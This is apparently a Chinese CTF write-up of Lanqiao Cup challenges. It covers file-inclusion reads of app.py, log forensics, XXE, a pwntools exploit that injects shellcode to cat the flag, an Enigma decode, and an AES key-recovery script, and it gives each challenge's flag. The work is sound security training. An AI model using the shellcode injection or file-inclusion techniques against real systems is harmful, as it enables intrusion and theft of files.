


这是昨天蓝桥杯部分题目的wp。

<!-- more -->

# 黑客密室逃脱

访问，看到访问了`/secret`下的`d9d1c4d9e0d591d0c8dc679b6f64a6c993a592a8c4a198a6966b6f68a09a9ba49ed6949e9ddf666e9bb4`

接下来还有个文件包含漏洞，可以获取到`app.py`和`hidden.txt`的内容。

`/file?name=app.py`

`/file?name=hidden.txt`

`app.py`中有加密逻辑，`hidden.txt`是key。

把这些内容用cyberchef数组化，用python写个脚本即可解出

```python
secret_key = [0x73,0x65,0x63,0x72,0x65,0x74,0x5f,0x6b,0x65,0x79,0x35,0x35,0x39,0x37]
text = [0xd9,0xd1,0xc4,0xd9,0xe0,0xd5,0x91,0xd0,0xc8,0xdc,0x67,0x9b,0x6f,0x64,0xa6,0xc9,0x93,0xa5,0x92,0xa8,0xc4,0xa1,0x98,0xa6,0x96,0x6b,0x6f,0x68,0xa0,0x9a,0x9b,0xa4,0x9e,0xd6,0x94,0x9e,0x9d,0xdf,0x66,0x6e,0x9b,0xb4]

flag = ""
for i in range(42):
    flag += chr(text[i]-secret_key[i%14])
print(flag)
```

flag\{a2ecc2f6-3d03-4e63-a661-5829b538f19b\}

# ezEvtx

打开，筛选出错误和警告，在事件ID4663中即可找到读取的文件。confidential.docx

flag\{confidential.docx\}

# flowzip

strings flowzip.pcapng | grep “flag”即可找到

flag\{c6db63e6-6459-4e75-bb37-3aec5d2b947b\}

# 星际XML解析器

XML 外部实体注入漏洞



这个payload解析即可

flag\{d63c2f41-2677-4a89-9e7b-89080cebb603\}

# RuneBreach

直接运行程序，输入4次n后得到了一个地址。不过这个地址似乎并没有什么用

构造cat flag的code注入进去。

```python
from pwn import *
context.arch='amd64'
p = process('./chall')
#p = remote('39.105.2.63', 27510)
p.sendlineafter('/N): ', 'n')
p.sendlineafter('/N): ', 'n')
p.sendlineafter('/N): ', 'n')
p.sendlineafter('/N): ', 'n')
p.recvuntil(' now ')
exec_area = int(p.recvuntil('!')[:-1], 16)
print('exec_area:', hex(exec_area))
shellcode = asm(shellcraft.cat('./flag'))
p.sendline(shellcode)
p.interactive()
```

flag\{9765b88a-21c0-41d4-bfd0-41acd6994050\}

# Enigma

使用Cyberchef的enigma即可直接得到

flag\{HELLOCTFERTHISISAMESSAGEFORYOU\}

# ShadowPhases

ida在主函数的

这里打个断点，开启动态调试，看一下str2的值即可得到flag

flag\{0fa830e7-b699-4513-8e01-51f35b0f3293\}

# easy\_AES

```python
b = {
    '7': ['3', '4', '5', '6', '7', '8', '9', 'a', 'b'],
    '4': ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', 'a', 'b'],
    'a': ['a', 'b', 'c', 'd', 'e', 'f'],
    'e': ['c', 'd'],
    'b': ['9', 'a', 'b', 'c', 'd'],
    '3': ['1', '2', '3', '4', '5', '6', '7', '8', '9', 'a', 'b', 'c', 'd'],
    '5': ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', 'a'],
    '6': ['4', '5', '6', '7', '8', '9', 'a', 'b', 'c', 'd'],
    'c': ['0', '1', '2', '3'],
    'f': ['7'],
    'd': ['c', 'd', 'e'],
    '1': ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', 'a', 'b', 'c', 'd', 'e'],
    '9': ['0', '1', '2', '3', '4', '5', '6'],
    '0': ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', 'a', 'b', 'c', 'd', 'e', 'f']
}
```

候选字典

```python
char_to_num = {f"{i:x}": i for i in range(16)}
b_numeric = {}
for k in b:
    k_num = char_to_num[k]
    b_numeric[k_num] = [char_to_num[c] for c in b[k]]

key1_digits = [char_to_num[c] for c in key1_hex]

gift_bin = bin(gift)[2:].zfill(128)
gift_nibbles = [int(gift_bin[i*4 : (i+1)*4], 2) for i in range(32)]
```

预处理

```python
from Cryptodome.Cipher import AES
b = {
    '7': ['3', '4', '5', '6', '7', '8', '9', 'a', 'b'],
    '4': ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', 'a', 'b'],
    'a': ['a', 'b', 'c', 'd', 'e', 'f'],
    'e': ['c', 'd'],
    'b': ['9', 'a', 'b', 'c', 'd'],
    '3': ['1', '2', '3', '4', '5', '6', '7', '8', '9', 'a', 'b', 'c', 'd'],
    '5': ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', 'a'],
    '6': ['4', '5', '6', '7', '8', '9', 'a', 'b', 'c', 'd'],
    'c': ['0', '1', '2', '3'],
    'f': ['7'],
    'd': ['c', 'd', 'e'],
    '1': ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', 'a', 'b', 'c', 'd', 'e'],
    '9': ['0', '1', '2', '3', '4', '5', '6'],
    '0': ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', 'a', 'b', 'c', 'd', 'e', 'f']
}
# 题目给出的数据
gift = 64698960125130294692475067384121553664
key1_hex = "74aeb356c6eb74f364cd316497c0f714"
cipher = b'6\xbf\x9b\xb1\x93\x14\x82\x9a\xa4\xc2\xaf\xd0L\xad\xbb5\x0e|>\x8c|\xf0^dl~X\xc7R\xcaZ\xab\x16\xbe r\xf6Pl\xe0\x93\xfc)\x0e\x93\x8e\xd3\xd6'

char_to_num = {f"{i:x}": i for i in range(16)}
b_numeric = {}
for k in b:
    k_num = char_to_num[k]
    b_numeric[k_num] = [char_to_num[c] for c in b[k]]

key1_digits = [char_to_num[c] for c in key1_hex]

gift_bin = bin(gift)[2:].zfill(128)
gift_nibbles = [int(gift_bin[i*4 : (i+1)*4], 2) for i in range(32)]

candidates = []
for i in range(32):
    k = key1_digits[i]
    g = gift_nibbles[i]
    user_candidates = b_numeric.get(k, list(range(16)))
    valid_candidates = [c for c in user_candidates if (c & k) == g]
    candidates.append(valid_candidates)

def solve():
    used = [False] * 16
    mapping = {}

    def backtrack(pos):
        if pos == 32:
            key0_digits = [mapping[k] for k in key1_digits]
            key0_hex = "".join(f"{c:x}" for c in key0_digits)
            try:
                aes0 = AES.new(bytes.fromhex(key0_hex), AES.MODE_CBC, bytes.fromhex(key1_hex))
                aes1 = AES.new(bytes.fromhex(key1_hex), AES.MODE_CBC, bytes.fromhex(key0_hex))
                plaintext = aes0.decrypt(aes1.encrypt(cipher))
                if b"flag{" in plaintext:
                    print("Found valid key0:", key0_hex)
                    print("Flag:", plaintext.decode())
                    return True
            except:
                pass
            return False

        k = key1_digits[pos]
        if k in mapping:   
            return backtrack(pos + 1)

        for c in candidates[pos]:
            if not used[c]:
                valid = True
                for future_pos in range(pos+1, 32):
                    future_k = key1_digits[future_pos]
                    if future_k == k:
                        future_g = gift_nibbles[future_pos]
                        if (c & future_k) != future_g:
                            valid = False
                            break
                if not valid:
                    continue
            
                used[c] = True
                mapping[k] = c
                if backtrack(pos + 1):
                    return True
                del mapping[k]
                used[c] = False
        return False
    return backtrack(0)

if not solve():
    print("No valid mapping found.")
```

flag\{886769b5-2301-4c37-bb73-4480b4eab682\}
